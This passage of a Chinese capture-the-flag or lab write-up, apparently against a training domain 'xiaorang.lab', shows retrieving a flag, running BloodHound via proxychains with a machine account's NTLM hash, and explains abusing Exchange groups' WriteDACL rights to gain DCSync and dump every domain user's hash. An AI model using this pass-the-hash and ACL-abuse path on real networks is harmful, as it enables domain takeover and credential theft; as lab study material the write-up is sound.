 获取 flag：

```
PS C:\Users\Administrator.XIAORANG\flag> type flag02.txt
Yb  dP 88    db     dP"Yb  88""Yb    db    88b 88  dP""b8
 YbdP  88   dPYb   dP   Yb 88__dP   dPYb   88Yb88 dP   `"
 dPYb  88  dP__Yb  Yb   dP 88"Yb   dP__Yb  88 Y88 Yb  "88
dP  Yb 88 dP""""Yb  YbodP  88  Yb dP""""Yb 88  Y8  YboodP


    / /
   / /                  _   __     ( )  ___
  / /        //   / / // ) )  ) ) / / //   ) )
 / /        //   / / // / /  / / / / //   / /
/ /____/ / ((___( ( // / /  / / / / ((___( (



flag02: flag{edb4d500-706f-4197-a33b-0ea8d79e3e44}
```

## 滥用 Active Directory ACLs/ACEs - writeDACL

使用 bloodhound 对域环境信息进行收集和分析：

```
root@kali:~$ proxychains4 -q python3 bloodhound.py -u "XIAORANG-EXC01$" --hashes 33e36d2a4609e3d963b8c29a3fd664bc:33e36d2a4609e3d963b8c29a3fd664bc -d xiaorang.lab -dc XIAORANG-WIN16.xiaorang.lab -c all --dns-tcp -ns 172.22.3.2 --auth-method ntlm --zip
INFO: Found AD domain: xiaorang.lab
INFO: Connecting to LDAP server: XIAORANG-WIN16.xiaorang.lab
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: XIAORANG-WIN16.xiaorang.lab
INFO: Found 28 users
INFO: Found 73 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 22 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: XIAORANG-PC.xiaorang.lab
INFO: Querying computer: XIAORANG-EXC01.xiaorang.lab
INFO: Querying computer: XIAORANG-WIN16.xiaorang.lab
INFO: Done in 00M 19S
INFO: Compressing output into 20230310182011_bloodhound.zip
```

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/6e97ce854126888c.png)

在 Active Directory 环境中，安装了 Exchange Server 后会添加一个名为 Microsoft Exchange Security Groups 的 OU，其中包括两个特殊的组：`Exchange Trusted Subsystem` 和 `Exchange Windows Permission`。如果获得了这两个组内任意用户的控制权限，就能够继承该组的 WriteDACL 权限，进而修改域对象的 ACL，最终实现利用 DCSync 导出域内所有用户 hash。
